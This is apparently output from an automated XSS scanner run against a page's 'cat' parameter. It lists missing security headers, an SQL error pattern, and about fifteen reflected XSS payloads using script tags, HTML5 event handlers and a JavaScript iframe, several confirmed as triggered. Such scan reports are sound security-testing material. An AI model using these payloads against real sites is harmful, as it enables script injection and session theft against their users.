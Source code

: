 ```
| NO | TYPE  | ISSUE            | METHOD | PARAM | PAYLOAD                                | DESCRIPTION                                   |
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
| 0  | INFO  | STATIC ANALYSIS  | GET    | -     | <original query>                       | Found Server: nginx/1.4.1                     |
| 1  | INFO  | STATIC ANALYSIS  | GET    | -     | <original query>                       | Not set HSTS                                  |
| 2  | INFO  | STATIC ANALYSIS  | GET    | -     | <original query>                       | Content-Type: text/html                       |
| 3  | LOW   | STATIC ANALYSIS  | GET    | -     | <original query>                       | Not Set X-Frame-Options                       |
| 4  | MIDUM | STATIC ANALYSIS  | GET    | -     | <original query>                       | Not Set CSP                                   |
| 5  | INFO  | DYNAMIC ANALYSIS | GET    | cat   | XsPeaR"                                | Found SQL Error Pattern                       |
| 6  | INFO  | REFLECTED        | GET    | cat   | rEfe6                                  | reflected parameter                           |
| 7  | INFO  | FILERD RULE      | GET    | cat   | onhwul=64                              | not filtered event handler on{any} pattern    |
| 8  | HIGH  | XSS              | GET    | cat   | <script>alert(45)</script>             | reflected XSS Code                            |
| 9  | HIGH  | XSS              | GET    | cat   | <marquee onstart=alert(45)>            | reflected HTML5 XSS Code                      |
| 10 | HIGH  | XSS              | GET    | cat   | <details/open/ontoggle="alert`45`">    | reflected HTML5 XSS Code                      |
| 11 | HIGH  | XSS              | GET    | cat   | <select autofocus onfocus=alert(45)>   | reflected onfocus XSS Code                    |
| 12 | HIGH  | XSS              | GET    | cat   | <input autofocus onfocus=alert(45)>    | reflected onfocus XSS Code                    |
| 13 | HIGH  | XSS              | GET    | cat   | <textarea autofocus onfocus=alert(45)> | reflected onfocus XSS Code                    |
| 14 | HIGH  | XSS              | GET    | cat   | <audio src onloadstart=alert(45)>      | reflected HTML5 XSS Code                      |
| 15 | HIGH  | XSS              | GET    | cat   | <meter onmouseover=alert(45)>0</meter> | reflected HTML5 XSS Code                      |
| 16 | HIGH  | XSS              | GET    | cat   | "><iframe/src=JavaScriPt:alert(45)>    | reflected XSS Code                            |
| 17 | HIGH  | XSS              | GET    | cat   | <video/poster/onerror=alert(45)>       | reflected HTML5 XSS Code                      |
| 18 | HIGH  | XSS              | GET    | cat   | <keygen autofocus onfocus=alert(45)>   | reflected onfocus XSS Code                    |
| 19 | VULN  | XSS              | GET    | cat   | <script>alert(45)</script>             | triggered <script>alert(45)</script>          |
| 20 | HIGH  | XSS              | GET    | cat   | <marquee onstart=alert(45)>            | triggered <marquee onstart=alert(45)>         |
| 21 | HIGH  | XSS              | GET    | cat   | <details/open/ontoggle="alert(45)">    | triggered <details/open/ontoggle="alert(45)"> |
| 22 | HIGH  | XSS              | GET    | cat   | <audio src onloadstart=alert(45)>      | triggered <audio src onloadstart=alert(45)>   |
| 23 | VULN  | XSS              | GET    | cat   | '"><svg/onload=alert(45)>              | triggered <svg/onload=alert(45)>              |
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
< Available Objects >
[cat] param
 + Available Special Char: ` ( \ ' { ) } [ : $ ]
```